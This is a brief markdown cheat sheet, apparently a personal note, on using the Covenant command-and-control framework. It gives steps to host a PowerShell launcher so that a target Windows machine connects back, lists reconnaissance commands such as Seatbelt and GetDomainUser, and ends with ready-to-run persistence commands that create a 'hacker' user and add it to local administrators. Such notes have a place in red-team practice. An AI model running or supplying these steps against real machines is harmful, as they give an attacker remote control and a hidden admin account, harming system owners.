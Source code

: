 # Covenant

### Covenant Terms

* Listener
* Grunt

### Covenant Grunt Commands

* `whoami` - who am I
* `Seatbelt -group=all` - get system info about everything
* `GetDomainUser` - get domain users

### How to get a grunt

* Create a Listener
  * Be sure to change ConnectAddresses
* Go into Launchers
  * Click on Powershell
  * Select Listener
  * Go into  Host
  * type in `/rev.ps1` and click host
  * Take note of the EncodedLauncher command
* Get Windows machine to run the command
* Once ran, go into Grunts
* Enjoy!

### PowerUp.ps1

```
PowershellImport

* select file * 

powershell i
```



### Persistence

Run these commands on a Grunt:

```
shellcmd net users hacker Password123! /add
```

```
shell net localgroup administrators hacker /add
```

PersistStartup

